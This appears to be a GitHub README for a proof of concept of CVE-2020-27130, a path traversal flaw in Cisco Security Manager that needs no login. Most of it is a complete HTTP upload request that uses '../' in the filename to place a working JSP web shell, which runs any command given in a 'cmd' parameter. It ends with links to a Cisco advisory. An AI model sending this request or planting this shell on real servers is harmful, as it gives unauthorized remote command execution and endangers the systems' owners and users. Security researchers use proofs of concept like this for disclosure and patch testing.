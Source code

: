 ## Overview
CVE-2020-27130 allows attackers to download arbitrary files or folders (as zip files) or even upload JSP web shell to a Cisco Security Manager server. There are 6 endpoints that can be exploited without authenticating.

Basically, it is a Path Traversal vulnerability. So, dot-dot-slash or ("../") will appear in all malicious payloads.

## Proof of Concept
* Upload web shell
```
POST /cwhp/XmpFileUploadServlet HTTP/1.1
Host: example.com
Content-Length: 952
Content-Type: multipart/form-data; boundary=------------------------704676f0a0c66115

--------------------------704676f0a0c66115
Content-Disposition: form-data; name="data"; filename="../../MDC/tomcat/webapps/cwhp/shell.jsp"
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
out.println("Command: " + request.getParameter("cmd") + "<BR>");
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
out.println(disr);
disr = dis.readLine();
}
}
%>
</pre>
</BODY></HTML>

--------------------------704676f0a0c66115--
```

## References
* https://gist.github.com/Frycos/8bf5c125d720b3504b4f28a1126e509e
* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-csm-path-trav-NgeRnqgR